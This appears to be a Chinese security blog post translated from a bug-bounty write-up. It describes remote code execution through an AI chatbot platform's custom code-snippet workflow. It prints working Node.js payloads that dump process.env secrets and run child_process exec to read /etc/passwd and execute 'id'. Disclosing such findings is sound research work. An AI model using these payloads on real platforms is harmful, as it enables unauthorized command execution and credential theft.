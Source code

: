#  探索AI聊天机器人工作流程实现RCE   
原创 玲珑安全官方  芳华绝代安全团队   2024-08-06 19:31  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1AoMVy0KnkqEMU3uEJcVqvr4Qicict0PZaDVUSfyyYDiauwQTMXZ4S6akHCfmKrS3V2gmUv8FvNxyEm3HZaianjyoQ/640?wx_fmt=jpeg "")  
##   
### 前言  
  
我发现了一个广泛使用的AI聊天机器人平台中的远程代码执行漏洞。该漏洞存在于聊天机器人的自定义工作流响应代码中，这些工作流允许开发人员通过创建定制的流程来扩展机器人的功能。  
### 正文  
  
在浏览自动化聊天机器人的多个特定功能时，其中一个引起我注意的功能是“Start from scratch”选项，如下所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkeBaWEibLzTUkUDsia7519n6LH0gbYcQ0lAIk3451PiafKy1G9SsFpUjRKw/640?wx_fmt=png&from=appmsg "")  
  
此“Start from scratch”选项包含多个用于定制聊天机器人自动化的选项，例如工作流、Webhooks和自定义代码片段，如下图所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkezMKicZdWwm9zDzaibCHEZODiarCT3rk1HSX8IVXoINaYKXI7I7fUlia4Vw/640?wx_fmt=png&from=appmsg "")  
  
查看其余选项后，我开始探索“运行代码片段”选项。  
  
该功能包含可自定义的代码，用于从聊天机器人获取自定义响应。  
例如下列代码存在一个默认值为“Hello World”的botMessage参数：  
```
const responseJson = {
  botMessage: "Hello world",
  responseExpected: false
}
```  
  
也就是定义了返回的消息和是否期待进一步响应的默认设置。  
  
由于  
聊天机器人是使用   
Node 18.x 框架构建的，我尝试获取/检查全局变量的响应，例如 __dirname、__filename，并尝试在“Hello World”位置执行像 eval(7*7) 这样的函数。  
  
例如：  
```
const responseJson = { 
botMessage : __dirname，
responseExpected : false
 }
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkebR7HZBnZVMF4YSGQicjdIib8qSKxUJPgFQZ3SC4ZvXicC8OlW3cW0J4SQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到，聊天机器  
人输出了**“/var/task”**，这意味着全局变量 __dirname 在内部成功执行。  
  
同理：  
```
const responseJson = { 
botMessage : __filename，
responseExpected : false
 }
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkenNuvautAPwWxTia3ua7PbK9C1poKWZwS8qjQJ9eDiaicrEcah8Pgt7uiaw/640?wx_fmt=png&from=appmsg "")  
  
输出**“/var/task/Template.js”**  
。  
  
同理：  
```
const responseJson = { 
botMessage：eval（7 * 7），
responseExpected：false
 }
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkeuVZMI38GHDds2HKwNhmrkvxuicTdIVV4rJLlfOAJ0TlEgHlFpy7Q0jQ/640?wx_fmt=png&from=appmsg "")  
  
输出49。  
  
接下来我想提高漏洞危害，于是我开始查看 Nodejs 官方文档，并找到了更多全局变量/对象来检查是否存在更多数据泄漏  
  
官方文档：https://nodejs.org/api/globals.html#process  
  
例如  
**process.env**  
、  
**process.argv**  
   
**process.execPath**  
、  
**process.memoryUsage()、 process.getuid() 、 process.cpuUsage()**  
等  
  
1、process.env  
```
const responseJson = {
botMessage: process.env,
responseExpected: false
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkeV4LekOfhwVDDZoorC31rbDActrokWCSxyVlafibicBoAIQj46Hl6PVqg/640?wx_fmt=png&from=appmsg "")  
  
检查环境变量至关重要，因为它们有时会存储 AWS_SECRET 和 AWS_KEY。  
  
2、process.platform  
```
const responseJson = {
botMessage: process.platform,
responseExpected: false
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkeaZN8jKSic0dpvLuDXFnkGcyqqfibukrHRpljLLJbVpLwfibcIqVShiaTAQ/640?wx_fmt=png&from=appmsg "")  
  
3、process.execPath  
```
const responseJson = {
botMessage: process.execPath,
responseExpected: false
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkeuoiaQQrTAU0AbdzE4mrIHXcs70xKmIwicicCbf6PDZbTe4rfzIc30vYnw/640?wx_fmt=png&from=appmsg "")  
  
4、process.memoryUsage()  
```
const responseJson = {
botMessage: process.memoryUsage(),
responseExpected: false
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkeyFFYhdNFMgaTZSjcyrsoy79nxibct4ibIJxpfJWc3VXvicTYMfbhic0COQ/640?wx_fmt=png&from=appmsg "")  
  
5、经过多次尝试、调试后，我创建出一个完整的  
**Payload**  
来获取/etc/passwd文件：  
```
const { exec } = require('child_process');

exports.main = (event, callback) => {
exec('head /etc/passwd', (error, stdout, stderr) => {
if (error) {
console.error(exec error: ${error});
return;
}
if (stderr) {
console.error(stderr: ${stderr});
return;
}

const responseJson = {
  botMessage: stdout,
  responseExpected: false
};

callback(responseJson);
});
};
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gkePjssmBp8TGPZpsu3nlL9BtUCa9FfM0CL6fR9EniatMlXxhN4Upbib35g/640?wx_fmt=png&from=appmsg "")  
  
运行“   
**id**  
 ”命令：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpXkrEq3ibIMXE0NBOUl3gke7ibF0QTckTYqPibIsvQrsa7LibAbCelALC2gEgLPAvGUW4EFu8S1fx7JQ/640?wx_fmt=png&from=appmsg "")  
  
原文出处：  
https://varmaanu001.medium.com/unveiling-remote-code-execution-in-ai-chatbot-workflows-3c7f633f63c3  
  
SRC漏洞挖掘培训  
  
[玲珑安全第三期如约而至](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247493447&idx=1&sn=04e4dfd799d0f22f5adfb1a50032d221&chksm=ebeb05ffdc9c8ce9a3d2916634a4fe3480685bf599150c2e128e20faeae4d2ddd0f12f96b630&scene=21#wechat_redirect)  
  
  
[第二期玲珑安全培训班来啦！](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247491250&idx=1&sn=0a1a522f09c42654a3eb2f314dfedffa&chksm=ebe8fc0adc9f751c60b0fa5c4c15bbc7947de1b50cbb8ecae11b51882a12612323d761e66f1a&scene=21#wechat_redirect)  
  
  
[玲珑安全第一期SRC培训班即将开课！](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247486139&idx=1&sn=11eb92b27684e41a86d26673ec4747f1&chksm=ebe8e803dc9f6115e18384bd62789bf5c5d1ad7de522faf92ebb52893a8cef4631a0f1459112&scene=21#wechat_redirect)  
  
  
往期漏洞分享  
  
[CR/LF注入+Race Condition绕过MFA](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247494480&idx=1&sn=6d203eb739fefc36ac9d21093def23df&chksm=ebeb09e8dc9c80fed57c493d1565b39aaaed3ce3e5fbca3531c6cd63150ba51a0a5b1bd65e23&scene=21#wechat_redirect)  
  
  
[CVSS 10信息披露+图片元数据不适当处理+大小写绕过速率限制](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247494475&idx=1&sn=28b09c0df494b74cd618ade4de105616&chksm=ebeb09f3dc9c80e5102e5a84f24ed250a1517c89fc42136c96a82347280164fe0e94f393d7e9&scene=21#wechat_redirect)  
  
  
[破解邀请码实现未授权访问和账户接管](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247494439&idx=1&sn=7e926d0a5f5e38426a612d1672ebdeb7&chksm=ebeb099fdc9c8089163372c77ca4928032b5082e761f134859b35681f2bec36cab5b79f39561&scene=21#wechat_redirect)  
  
  
[子域名模糊测试实现RCE](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247494424&idx=1&sn=c29423df3626026c4d87ea402cfc7b5f&chksm=ebeb09a0dc9c80b692dc7fe9822488e3d5a2a9e7a78425d2b022b6665eacba94a6b5ffb8caf5&scene=21#wechat_redirect)  
  
  
[通过导入功能将权限提升至管理员](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247494413&idx=1&sn=517080cb6292b57c8a0d274ba1cf0f8f&chksm=ebeb09b5dc9c80a305bcb2a3e6dc16e512965951470e90c8b36700205f53a736c88bb1e3251d&scene=21#wechat_redirect)  
  
  
[SSRF：Microsoft Azure API 管理服务](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247493949&idx=1&sn=e513345eee2ca4705ed9a3cfca6b03af&chksm=ebeb0b85dc9c829375aefdde0f6fa43a2084b145eda565c6d32b22884a224bc5e0c0cbf6a4c7&scene=21#wechat_redirect)  
  
  
[Oracle Apiary：SSRF获取元数据](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247493814&idx=1&sn=0ba43e7c5369f4b24e39099fa004d27c&chksm=ebeb0a0edc9c83182a2d59baf9835b84b9c5fc7f135ddb1d1696e30afe56fc9f9d9be4be08d0&scene=21#wechat_redirect)  
[SSRF 之 Azure Digital Twins Explorer](http://mp.weixin.qq.com/s?__biz=MzI4NTYwMzc5OQ==&mid=2247493743&idx=1&sn=3f5fe3b6e83d484107da879b18a6bc6d&chksm=ebeb0ad7dc9c83c160483306e2fe33d83877ad46e08257110a09d6b825e8e76e8669d63fdf30&scene=21#wechat_redirect)  
  
  
玲珑安全交流群  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpfQQzRic5l3dfdVz9ic3u2WBeIticfia6o694odqTFyAC0Uv8xyb9Eul3AFGRzo6ld8xUS3obxOxQX8Q/640?wx_fmt=png&from=appmsg "")  
  
玲珑安全B站免费公开课  
  
https://space.bilibili.com/602205041  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1AoMVy0KnkpVjiaTUMYPLzFcLHPRmjJaYgicYcibBOoTyko1d5gcfhxlu6BMmSFKeQMeqsda7jd3yEiaCekfJjrQXg/640?wx_fmt=png&from=appmsg "")  
  
  
